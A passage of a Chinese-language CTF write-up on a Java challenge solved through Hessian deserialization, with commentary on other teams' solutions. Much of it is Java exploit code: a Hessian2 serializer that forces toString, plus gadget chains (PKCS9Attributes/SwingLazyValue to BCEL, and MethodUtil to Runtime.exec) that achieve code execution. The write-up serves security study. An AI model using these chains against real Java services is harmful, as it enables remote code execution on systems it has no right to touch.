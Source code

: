 预期的话是通过这个 myfun 调用 sayhello 从而读取文件进行 hessian 反序列化，因为有个写路由，所以文件内容完全可控的。

### Deserialize

hessian 这里可以直接用 0ctf 那题的[思路](http://www.bmth666.cn/bmth_blog/2023/02/07/0CTF-TCTF-2022-hessian-onlyJdk)。
首先是异常处理触发 toString：
```java
public static byte[] hessian2SerializeThrowExpectToString(Object object) throws Exception {
	ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
	Hessian2Output out = new Hessian2Output(byteArrayOutputStream);
	NoWriteReplaceSerializerFactory factory = new NoWriteReplaceSerializerFactory();
	factory.setAllowNonSerializable(true);
	out.setSerializerFactory(factory);
	out.writeString("aaa");
	out.writeObject(object);
	out.flushBuffer();
	return byteArrayOutputStream.toByteArray();
}
```

这里要使用 y4 师傅的方法把序列化给重写一下。

然后前面文章里随便加条链子拼上去就行，比如 `PKCS9Attributes+SwingLazyValue+JavaWrapper._mian`：
```java
// PKCS9Attributes.toString -> UIDefaults(Hashtable).get -> SwingLazyValue.createValue -> [sink] BCEL Code
PKCS9Attributes s = ReflectUtils.createWithoutConstructor(PKCS9Attributes.class);  
UIDefaults uiDefaults = new UIDefaults();  
String payload = SBCEL.getBCELCode(clz);  
uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.bcel.internal.util.JavaWrapper", "_main", new Object[]{new String[]{payload}}));  
ReflectUtils.setFieldValue(s, "attributes", uiDefaults);  
return s;
```

或者改成触发 `sun.reflect.misc.MethodUtil`：
```java
Method invokeMethod = Class.forName("sun.reflect.misc.MethodUtil").getDeclaredMethod("invoke", Method.class, Object.class, Object[].class);
Method exec = Class.forName("java.lang.Runtime").getDeclaredMethod("exec", String.class);
byte[] code = staticInvoke(
		"sun.reflect.misc.MethodUtil",
		"invoke",
		new Object[]{invokeMethod, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{"calc"}}}
);
```

具体的代码在 [Javashark](https://github.com/silentEAG/Javashark) 上。不过对于调用函数那个地方还是没有解决。

对于这道题来说，看了看其他队的 WP，Nu1L 是预期解，绕过 MyBean 然后 scalc lazylist 调用 myFun 触发 hessian 反序列化。

WM 是非预期，直接用的 deserialize2ToString -> toString2Getter -> getEvilTemplates 这个链子的思路。

还看到有几篇 wp 说的是用 `scala.sys.process.ProcessBuilderImpl$FileOutput$$anonfun$$lessinit$greater$3` 去把黑名单给置空，然后再打，这里应该不太对，题目本身的 `security/blacklist.txt` 是打包的资源文件，远程能打是因为出题人在官方 WP 中说到了远程环境其实没有黑名单和 rasp。

